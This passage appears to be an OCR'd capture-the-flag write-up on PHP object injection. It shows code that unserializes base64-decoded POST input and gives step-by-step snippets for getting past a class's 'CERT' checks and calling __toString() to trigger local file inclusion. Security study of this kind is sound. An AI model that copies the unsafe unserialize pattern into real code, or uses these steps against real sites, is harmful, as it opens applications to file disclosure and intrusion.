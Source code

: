 ```php
        echo '<a href="?src=">Source</a>';
    
    if(isset($_POST['data']))
        unserialize(base64_decode($_POST['data']));
    
    ?>
```

# Code analyses of `ReadFileContent` class:

## restrictions

1. when constructing an object `check` must be not “CERT” to avoid `exit`  
2. when deconstructing `check` must be “CERT” to avoid `exit`  
3. `checker` global variable should be true, so we can include `$this -> var` .php file to exploit LFI

## Bypasses

1. Create ReadFileContent object with check not equals to CERT
    
```php
$readFileContent = new ReadFileContent("nun", "index"); # check property is not CERT to avoid exit in line 9
```

2. we need to change `check` property after creating the object and serialize the object with the new value equals to “CERT”
    
```php
$readFileContent -> check = "CERT"; # change the check property to CERT, after finishing the constructor
```

3. the only way to change the `checker` global variable is to call `__toString()` function in the Helper class like indicated here
    
```php
function __toString() {
        global $checker;
        $checker = true; # will change the global varible to true 
        return (new ReadFileContent($this->msg,"temp"))->check;
    }
```


# Code analyses of `Helper` class:

## functions

- there are two function
1. `__wakeup()` is a magic method that is automatically called when an object of a class is being unserialized.
2. `__toString()` is a magic method that allows you to define how an object should be converted to a string when it is treated as a string. It is automatically called when you try to use an object as a string, such as when you echo or concatenate it with another string.

